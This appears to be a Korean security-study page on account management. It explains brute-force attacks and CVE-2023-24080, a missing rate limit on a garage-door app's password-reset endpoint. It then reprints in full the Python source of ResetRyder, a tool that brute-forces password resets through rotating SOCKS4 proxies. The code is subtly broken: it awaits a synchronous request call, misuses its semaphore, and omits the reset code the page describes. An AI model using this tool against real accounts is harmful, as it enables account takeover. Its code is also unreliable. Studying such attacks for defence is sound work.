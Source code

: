 ```yaml
---
description: 1. 계정 관리
---
```


# 01.계정 관리

※ 무작위 대입 공격(Brute Force Attack): 특정한 암호를 풀기 위해 가능한 모든 값을 대 입하는 공격 방법&#x20;

※ 사전 대입 공격(Dictionary Attack): 사전에 있는 단어를 입력하여 암호를 알아내거나 암호를 해독하는 데 사용되는 컴퓨터 공격 방법



2023년 2월, CVE-2023-24080 취약점을 참고하여 만든 [resetryder](https://github.com/SirCryptic/resetryder) tool을 이용하여 무차별 대입 로그인 통신 과정을 알아보았다.



**CVE-2023-24080이란 무엇인가?**

Chamberlain myQ v5.222.0.32277(iOS)의 비밀번호 재설정 엔드포인트에서는 속도 제한이 없는 취약점이 발견 되었고 이 취약점은 공격자가 무차별 대입 공격을 통해 사용자 계정을 손상시킬 수 있는 취약점이다.



1. 공격자는 피해자의 이메일 계정에 대한 사전 지식이 필요합니다. 또는 이  취약점을 발견한 사람처럼 공격자는 피해자의 계정이 있는지 확인하기 위해 다음 End point에 반복적으로 요청을 할 수 있다.

```
POST /api/Account/ForgotPassword

```

2. 아래는 존재하지 않는 계정인 jim@brackish.io 의 base 64 인코딩 버전이다 . 계정이 있는 경우 이 매개변수는 Location 응답 헤더에 없다 . 피해자의 이메일이 발견되면 계정 탈취는 간단하다. 이 취약점의 핵심은 속도 제한이 없다는 것이다.

```
email=amltQGJyYWNraXNoLmlv
```



3. 이 요청의 본문에는 (다른 매개 변수 중에서) 피해자에게 이메일로 전송되는 재설정 코드가 포함되어 있다.&#x20;

```
Code=5308
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption><p>수천 건의 요청 후 재설정 코드가 적중되면 302 응답</p></figcaption></figure>



재설정 코드는 길이가 4자리에 불과하며 이 End point에는 속도 제한이 없다. 공격자는 자유롭게 이 코드를 무차별 대입하고 피해자의 암호를 재설정 할 수 있다. 이 문제는 2023년 1월 10일에 Chamberlain에 보고되었다.

출처 : [https://nvd.nist.gov/vuln/detail/CVE-2023-24080](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)[
\
http://web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/
](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)



그러면 이 취약점을 응용하여 만든 툴을 사용해보자

**ResetRyder - Open Source Brute Force Password Reset Tool**

이 있는데 이 Tool이 CVE-2023-24080 취약점을 응용한 툴이다.

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption><p><a href="https://github.com/SirCryptic/resetryder">https://github.com/SirCryptic/resetryder</a></p></figcaption></figure>



아래에는 해당 tool의 python3 code이다.

```
import time
import requests
import random
import argparse
import asyncio

# Developer: SirCryptic (NullSecurityTeam)
# Info:      ResetRyder - Brute force password reset tool - By NullSecurityTeam
# Note/s:    Based on CVE-2023-24080 not only just for Chamberlain myQ v5.222.0.32277 (on iOS)
#            This code will work for any web application that has a similar vulnerability.
#            The author of this script is not responsible for any damage caused by the use or misuse of this script. 
#            These PoCs are intended for educational and research purposes only, and should never be used to target or exploit systems without explicit permission from the owner.

password_list_path = ""
username_list_path = ""
reset_password_url = ""
rate_limit_time = 1
proxy_list_path = ""
max_retries = 3
max_timeout = 10
max_concurrent_requests = 10

parser = argparse.ArgumentParser(description="ResetRyder - Brute force password reset tool - By NullSecurityTeam")
parser.add_argument("-p", "--password_list", required=True, help="Path to the password list file")
parser.add_argument("-u", "--username_list", required=True, help="Path to the username list file")
parser.add_argument("-r", "--reset_password_url", required=True, help="Reset password URL")
parser.add_argument("-t", "--rate_limit_time", type=int, default=1, help="Rate limiting time in seconds (e.g., 1)")
parser.add_argument("-x", "--proxy_list", required=True, help="Path to the SOCKS4 proxy list file")
parser.add_argument("-a", "--max_retries", type=int, default=3, help="Maximum number of retries for failed requests")
parser.add_argument("-o", "--max_timeout", type=int, default=10, help="Maximum timeout for requests in seconds")
parser.add_argument("-c", "--max_concurrent_requests", type=int, default=10, help="Maximum number of concurrent requests")
args = parser.parse_args()

password_list_path = args.password_list
username_list_path = args.username_list
reset_password_url = args.reset_password_url
rate_limit_time = args.rate_limit_time
proxy_list_path = args.proxy_list
max_retries = args.max_retries
max_timeout = args.max_timeout
max_concurrent_requests = args.max_concurrent_requests

with open(password_list_path, "r") as f:
    password_list = [line.strip() for line in f]

with open(username_list_path, "r") as f:
    username_list = [line.strip() for line in f]

with open(proxy_list_path, "r") as f:
    proxy_list = [line.strip() for line in f]

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
}

async def reset_password(username, password):
    for i in range(max_retries):
        payload = {"username": username, "new_password": password, "confirm_new_password": password}
        proxy = {"socks4": proxy_list[random.randint(0, len(proxy_list) - 1)]}
        try:
            response = await asyncio.wait_for(requests.post(reset_password_url, headers=headers, data=payload, proxies=proxy, timeout=max_timeout), timeout=max_timeout)
            if "password reset successful" in response.text.lower():
                print(f"Password reset successful for user {username}. New password: {password}")
                return True
            else:
                print(f"Password reset failed for user {username} and password: {password}")
        except:
            pass
    return False

async def main():
    tasks = []
    semaphore = asyncio.Semaphore(max_concurrent_requests)
    async with semaphore:
        for username in username_list:
            for password in password_list:
                task = asyncio.create_task(reset_password(username, password))
                tasks.append(task)
                await asyncio.sleep(rate_limit_time)
    results = await asyncio.gather(*tasks)
    print(f"Total requests: {len(results)}, Successful requests: {sum(results)}")

asyncio.run(main())
```



